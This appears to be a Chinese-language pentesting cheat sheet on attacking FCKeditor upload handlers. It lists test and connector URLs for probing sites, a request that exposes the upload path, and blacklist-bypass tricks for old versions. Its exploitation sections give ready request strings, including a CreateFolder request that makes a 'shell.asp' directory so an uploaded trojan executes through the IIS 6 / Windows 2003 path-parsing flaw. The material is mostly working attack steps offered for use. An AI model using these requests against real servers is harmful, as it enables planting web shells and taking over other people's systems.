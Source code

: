 ```
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html
```

### FCKeditor 查看文件上传路径

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
```

XML 页面中第二行 `url=/xxx`的部分就是默认基准上传路径

### FCKeditor 被动限制策略所导致的过滤不严问题

影响版本: FCKeditor x.x <= FCKeditor v2.4.3  

脆弱描述：

FCKeditor v2.4.3 中 File 类别默认拒绝上传类型：html|htm|php|php2|php3|php4|php5|phtml|pwml|inc|asp|aspx|ascx|jsp|cfm|cfc|  
pl|bat|exe|com|dll|vbs|js|reg|cgi|htaccess|asis|sh|shtml|shtm|phtm

Fckeditor 2.0 <= 2.2 允许上传 asa、cer、php2、php4、inc、pwml、pht 后缀的文件上传后 它保存的文件直接用的 $sFilePath = $sServerDir . $sFileName，而没有使用 $sExtension 为后缀。直接导致在 win 下在上传文件后面加个`.`来突破 [未测试]。而在 apache 下，因为”Apache 文件名解析缺陷漏洞” 也可以利用之，详见”附录 A”

另建议其他上传漏洞中定义 TYPE 变量时使用 File 类别来上传文件, 根据 FCKeditor 的代码，其限制最为狭隘。

攻击利用:

```
允许其他任何后缀上传
```

### 利用 2003 路径解析漏洞上传木马

影响版本: 索引底部附录 B  

脆弱描述：  
利用 2003 系统路径解析漏洞的原理，创建类似`bin.asp`如此一般的目录，再在此目录中上传文件即可被脚本解释器以相应脚本权限执行。  

攻击利用:

```
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
```

强制建立 shell.asp 目录：

```
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
```
